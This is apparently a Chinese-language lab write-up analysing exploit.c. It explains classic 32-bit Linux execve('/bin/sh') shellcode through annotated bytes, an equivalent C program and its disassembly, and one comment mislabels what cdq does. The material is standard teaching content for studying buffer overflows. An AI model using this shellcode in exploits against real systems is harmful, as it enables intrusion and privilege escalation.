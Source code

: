 

### exploit.c 源代码分析

#### shellcode

分析见注释：

```c
char shellcode[] =
  "\x31\xc0"    // xorl    %eax,%eax
  "\x50"        // pushl   %eax
  "\x68""//sh"  // pushl   $0x68732f2f
  "\x68""/bin"  // pushl   $0x6e69622f
  "\x89\xe3"    // movl    %esp,%ebx
  "\x50"        // push   %eax
  "\x53"        // push   %ebx
  "\x89\xe1"    // mov    %esp,%ecx   #
  "\x99"        // cdq                # set %eax to 0
  "\xb0\x0b"    // movb   $0x0b,%al   # set %al to 11
  "\xcd\x80"    // int    $0x80       # execve("/bin/sh",0,0)
;
```

可实现的功能等同于：

```c
#include <unistd.h>

void main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}

```

此程序编译后为

```asm
08049196 <main>:
 8049196:	f3 0f 1e fb          	endbr32 
 804919a:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 804919e:	83 e4 f0             	and    $0xfffffff0,%esp
 80491a1:	ff 71 fc             	pushl  -0x4(%ecx)
 80491a4:	55                   	push   %ebp
 80491a5:	89 e5                	mov    %esp,%ebp
 80491a7:	53                   	push   %ebx
 80491a8:	51                   	push   %ecx
 80491a9:	83 ec 10             	sub    $0x10,%esp
 80491ac:	e8 37 00 00 00       	call   80491e8 <__x86.get_pc_thunk.ax>
 80491b1:	05 4f 2e 00 00       	add    $0x2e4f,%eax
 80491b6:	8d 90 08 e0 ff ff    	lea    -0x1ff8(%eax),%edx
 80491bc:	89 55 f0             	mov    %edx,-0x10(%ebp)
 80491bf:	c7 45 f4 00 00 00 00 	movl   $0x0,-0xc(%ebp)
 80491c6:	8b 55 f0             	mov    -0x10(%ebp),%edx
 80491c9:	83 ec 04             	sub    $0x4,%esp
 80491cc:	6a 00                	push   $0x0
 80491ce:	8d 4d f0             	lea    -0x10(%ebp),%ecx
 80491d1:	51                   	push   %ecx
 80491d2:	52                   	push   %edx
 80491d3:	89 c3                	mov    %eax,%ebx
 80491d5:	e8 96 fe ff ff       	call   8049070 <execve@plt>
 80491da:	83 c4 10             	add    $0x10,%esp
 80491dd:	90                   	nop
 80491de:	8d 65 f8             	lea    -0x8(%ebp),%esp
```